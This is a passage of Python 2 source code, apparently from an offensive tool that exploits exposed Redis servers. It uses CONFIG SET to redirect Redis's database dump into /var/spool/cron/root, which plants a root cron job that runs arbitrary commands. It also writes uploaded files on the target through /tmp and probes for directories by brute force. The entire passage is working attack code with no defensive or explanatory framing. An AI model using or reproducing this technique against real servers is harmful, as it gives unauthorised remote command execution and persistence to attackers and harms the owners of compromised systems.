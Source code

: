 ```
            self.output(e.message,self.ERROR)
            sys.exit(1)
        m_data = '\n%s%s%s\n' % (separator,data,separator)
        try:
            self.r.config_set('dir','/tmp/')
        except Exception,e:
            self.output('config set dir /tmp/',self.ERROR)
            self.output(e.message,self.ERROR)
            sys.exit()
        self.r.config_set('dbfilename','0ttt')
        self.r.config_set('rdbcompression','no')
        self.r.flushall()
        self.r.set('data',m_data)
        self.r.save()
        #recover db config
        self.r.delete('data')
        command = '''python -c 'open("%s","ab+").write(open("/tmp/0ttt","rb").read().split("%s")[1])' ''' % (remote_file,separator)
        self.execute(command)
        self.output('file upload done',self.INFO)
    # call after set_command
    def execute(self,command,time_delay=2):
        self.generate_crond(command,time_delay)
        try:
            self.r.config_set('dir','/var/spool/cron/')
        except Exception,e:
            self.output('config set dir /var/spool/cron',self.ERROR)
            self.output(e.message,self.ERROR)
            sys.exit()
        self.r.config_set('dbfilename','root')
        self.r.flushall()
        self.r.set('shell',self.crond)
        self.r.save()
        self.r.delete('shell')
        self.output('cron set ok',self.INFO)
        for i in range(time_delay * 60):
            sys.stdout.write('\r\033[32;3m [INFO] wait {0}seconds for command execute \033[0m'.format((time_delay * 60) - i))
            sys.stdout.flush()
            time.sleep(1)
        print ''
        self.output('command execute done',self.INFO)
    def broute_dir(self,dirs_file):
        self.output("broute dir")
        try:
            dirs = open(dirs_file).readlines()
        except Exception,e:
            self.output('open file %s error' % dirs_file,self.ERROR)
            self.output(e.message,self.ERROR)
            sys.exit()
        for d_path in dirs:
            d_path = d_path.strip()
            try:
                self.r.config_set('dir',d_path)
                print '[path exests]',d_path
            except Exception,e:
                if "Permission denied" in e.message:
                    print '[Permission denied]',d_path
                else:
                    pass



```